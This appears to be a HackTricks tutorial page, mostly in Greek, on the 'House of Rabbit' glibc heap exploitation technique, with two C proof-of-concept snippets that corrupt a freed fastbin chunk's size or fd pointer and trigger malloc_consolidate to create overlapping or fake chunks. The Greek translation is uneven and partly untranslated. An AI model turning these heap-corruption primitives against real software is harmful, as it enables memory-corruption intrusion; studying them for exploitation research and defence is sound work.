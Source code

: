 # House of Rabbit

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Requirements

1. **Δυνατότητα τροποποίησης του δείκτη fd του fast bin ή του μεγέθους**: Αυτό σημαίνει ότι μπορείτε να αλλάξετε τον προ Forward δείκτη ενός chunk στο fastbin ή το μέγεθός του.
2. **Δυνατότητα ενεργοποίησης του `malloc_consolidate`**: Αυτό μπορεί να γίνει είτε με την εκχώρηση ενός μεγάλου chunk είτε με τη συγχώνευση του κορυφαίου chunk, που αναγκάζει τη heap να συγχωνεύσει τα chunks.

### Goals

1. **Δημιουργία επικαλυπτόμενων chunks**: Για να έχει ένα chunk επικαλυπτόμενο με ένα άλλο, επιτρέποντας περαιτέρω χειρισμούς στη heap.
2. **Κατασκευή ψεύτικων chunks**: Για να ξεγελάσετε τον αλγόριθμο εκχώρησης να θεωρεί ένα ψεύτικο chunk ως νόμιμο chunk κατά τη διάρκεια των λειτουργιών της heap.

## Steps of the attack

### POC 1: Modify the size of a fast bin chunk

**Objective**: Δημιουργία ενός επικαλυπτόμενου chunk τροποποιώντας το μέγεθος ενός fastbin chunk.

* **Step 1: Allocate Chunks**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
Αναθέτουμε δύο κομμάτια των 0x40 byte το καθένα. Αυτά τα κομμάτια θα τοποθετηθούν στη λίστα γρήγορων κομματιών μόλις απελευθερωθούν.

* **Βήμα 2: Απελευθέρωση Κομματιών**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
Απελευθερώνουμε και τα δύο κομμάτια, προσθέτοντάς τα στη λίστα fastbin.

* **Βήμα 3: Τροποποίηση Μεγέθους Κομματιού**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
Αλλάζουμε τα μεταδεδομένα μεγέθους του `chunk1` σε 0xa1. Αυτό είναι ένα κρίσιμο βήμα για να ξεγελάσουμε τον αλγόριθμο κατά τη διάρκεια της ενοποίησης.

* **Βήμα 4: Ενεργοποιήστε το `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Allocating a large chunk triggers the `malloc_consolidate` function, merging small chunks in the fast bin. The manipulated size of `chunk1` causes it to overlap with `chunk2`.

After consolidation, `chunk1` overlaps with `chunk2`, allowing for further exploitation.

### POC 2: Modify the `fd` pointer

**Objective**: Create a fake chunk by manipulating the fast bin `fd` pointer.

* **Step 1: Allocate Chunks**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Εξήγηση**: Δεσμεύουμε δύο κομμάτια, ένα μικρότερο και ένα μεγαλύτερο, για να ρυθμίσουμε τη στοίβα για το ψεύτικο κομμάτι.

* **Βήμα 2: Δημιουργία ψεύτικου κομματιού**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
Γράφουμε ψευδές μεταδεδομένο chunk στο `chunk2` για να προσομοιώσουμε μικρότερα chunks.

* **Βήμα 3: Ελευθερώστε το `chunk1`**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Εξήγηση**: Απελευθερώνουμε το `chunk1`, προσθέτοντάς το στη λίστα fastbin.

* **Βήμα 4: Τροποποιήστε το `fd` του `chunk1`**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Εξήγηση**: Αλλάζουμε τον δείκτη προς τα εμπρός (`fd`) του `chunk1` ώστε να δείχνει στο ψεύτικο chunk μας μέσα στο `chunk2`.

* **Βήμα 5: Ενεργοποιήστε το `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Η εκχώρηση ενός μεγάλου κομματιού ξαναενεργοποιεί το `malloc_consolidate`, το οποίο επεξεργάζεται το ψεύτικο κομμάτι.

Το ψεύτικο κομμάτι γίνεται μέρος της λίστας fastbin, καθιστώντας το ένα νόμιμο κομμάτι για περαιτέρω εκμετάλλευση.

### Περίληψη

Η τεχνική **House of Rabbit** περιλαμβάνει είτε την τροποποίηση του μεγέθους ενός κομματιού fast bin για τη δημιουργία επικαλυπτόμενων κομματιών είτε την παραποίηση του δείκτη `fd` για τη δημιουργία ψεύτικων κομματιών. Αυτό επιτρέπει στους επιτιθέμενους να πλαστογραφήσουν νόμιμα κομμάτια στη heap, διευκολύνοντας διάφορες μορφές εκμετάλλευσης. Η κατανόηση και η πρακτική αυτών των βημάτων θα ενισχύσουν τις δεξιότητές σας στην εκμετάλλευση heap.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
